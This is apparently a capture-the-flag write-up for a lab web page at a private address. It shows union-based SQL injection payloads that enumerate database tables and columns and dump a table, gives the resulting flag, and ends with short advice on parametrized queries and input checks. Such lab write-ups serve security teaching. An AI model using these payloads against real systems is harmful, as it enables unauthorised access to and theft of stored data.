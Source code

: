 # 01_unsecure_search_of_image_SQLINJECTION

# *How to find it*

Unsecure sql request form in the page: http://10.12.100.35/index.php?page=searchimg

go to the page mentioned before, Whenever you are looking for an SQL injection you want to check if the page is injectable. 

You can type an SQL request responding true everytime such like this one:  '1 or 1=1' so it will return ALL rows from the "list_images" table.

Whenever we type this one we realise that this page can be injected. This is a major security problem.

we did these steps :

INFORMATION_SCHEMA provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column, or access privileges. Other terms that are sometimes used for this information are data dictionary and system catalog.

```sql
1 or 1=1 union select null,table_name from information_schema.tables
```
```sql
 1 or 1=1 union select null,group_concat(column_name) from information_schema.columns where table_name=0x6c6973745f696d61676573
```
 0x6c6973745f696d61676573 = list_images (hexadecimal)

```sql
 1 or 1=1 union select title,comment from list_images
```
then decrypt it with md5 and hash to sha256.

the flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.

# *How should secure it*

- Using ORM (object relationnal mapping) because they use parametrized statements even though they can let you construct the sql statement.
- Sanitize input: Check that supplied fields like email addresses match a regular expression, ensure that numeric or alphanumeric fields do not contain symbol characters, 
  reject (or strip) out whitespace and new line characters where they are not appropriate.

# *SRC*

https://www.hacksplaining.com/prevention/sql-injection